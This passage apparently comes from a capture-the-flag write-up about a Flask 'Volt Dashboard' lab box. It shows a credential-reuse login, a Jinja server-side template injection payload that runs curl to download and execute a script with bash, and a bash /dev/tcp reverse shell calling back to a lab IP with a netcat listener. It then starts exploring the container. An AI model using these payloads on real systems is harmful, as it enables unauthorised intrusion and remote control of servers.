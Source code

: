 I added it to my `/etc/hosts` and arrived at another login portal. The first thing I noticed was that this login portal expected different types of credentials. The previous one had been an email, but this one expected a username. Before doing any more deep diving, I tried the same credentials, but in the username, I removed the domain.

![]({{ image_path }}{{ page.name }}/flasklogincreds.png)

### SSTI in Flask/Jinja
More than specifically seeing any potential on this "General Information" page, I used process of elimination, as the other links or buttons had no meaningful action. 
*I often look for keywords that hint at names of technologies and even their versions*
On top of the fact that I could probably exploit the input boxes, I also saw "Flask Volt Dashboard" in the order of the page. So I searched: "Flask Volt Dashboard exploit".

![]({{ image_path }}{{ page.name }}/dashboard.png)

I came across this post: https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/
Reading this post made me understand that I could possibly exploit a template that directly called data from a database. Therefore rather than passing the expected data, in this case, a "Full Name", I could pass data in Jinja's syntax, that would execute as my payload.

So I tried it:

![]({{ image_path }}{{ page.name }}/flasklogincreds.png)

And wah-lah, it worked :P! After having POC (Proof of Concept), I used the following exploit to obtain RCE (Remote Code Execution), that would grab a file containing commands for a reverse shell from my attacking machine.
1. Configure the revshell executable to be grabbed: 
    - Create a file called `revshell`
    - Populate with: 
    ```
    #!/bin/bash
    -c "bash -i >& /dev/tcp/10.10.14.22/6666 0>&1"
    ```
2. Set up the listener: `nc -lvnp 6666`
3. Set up the web server: `python3 -m http.server 80`
4. Submit the request with the payload as the "Full Name": `{{request.application.__globals__.__builtins__.__import__('os').popen('curl 10.10.14.22/revshell | bash').read()}}`

And there was my shell! But ew, what the fudge, it looks like I'm in a container ):

![]({{ image_path }}{{ page.name }}/container.png)


### Escaping the Container
The first thing I did was look around the container. I had landed in `/backend/` when I initiated the shell. I looked around but never found anything actually important.

I then progressed to `linpeas`. Although it wasn't highlighted, I notice that there was a user in the home directory?! 

![]({{ image_path }}{{ page.name }}/augustus.png)
